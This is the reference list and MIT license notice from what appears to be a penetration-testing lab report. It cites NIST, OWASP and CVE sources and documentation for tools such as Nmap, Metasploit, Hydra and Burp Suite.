## References

1. Scarfone, K., Souppaya, M., Cody, A., and Orebaugh, A. (2008). Technical Guide to Information Security Testing and Assessment (NIST Special Publication 800-115). National Institute of Standards and Technology.
2. OWASP Foundation. (2021). OWASP Top 10:2021 The Ten Most Critical Web Application Security Risks. Open Web Application Security Project.
3. MITRE Corporation. (2011). CVE-2011-2523: vsftpd 2.3.4 Backdoor Vulnerability. Common Vulnerabilities and Exposures Database.
4. Lyon, G. (2009). Nmap Network Scanning: The Official Nmap Project Guide to Network Discovery and Security Scanning. Insecure.Com LLC.
5. Orebaugh, A., Ramirez, G., and Beale, J. (2006). Wireshark and Ethereal Network Protocol Analyzer Toolkit. Syngress.
6. Rapid7. (2024). Metasploit Framework Documentation: vsftpd_234_backdoor. Rapid7 Cybersecurity.
7. van Hauser, THC, and Maciejak, D. (2023). Hydra: Network Logon Cracker. The Hacker's Choice.
8. PortSwigger. (2024). Burp Suite Community Edition Documentation: Intercepting HTTP Traffic. PortSwigger Web Security.
9. Apache Software Foundation. (2024). Apache HTTP Server Version 2.4 Documentation: Security Tips.
10. MariaDB Foundation. (2024). MariaDB Server Documentation: Securing MariaDB and Privilege Management.
11. OWASP Foundation. (2024a). SQL Injection Prevention Cheat Sheet. Open Web Application Security Project.
12. OWASP Foundation. (2024b). Cross-Site Scripting (XSS) Prevention Cheat Sheet. Open Web Application Security Project.

## License

This project report and associated lab materials are licensed under the MIT License. See the [LICENSE](LICENSE) file for details.
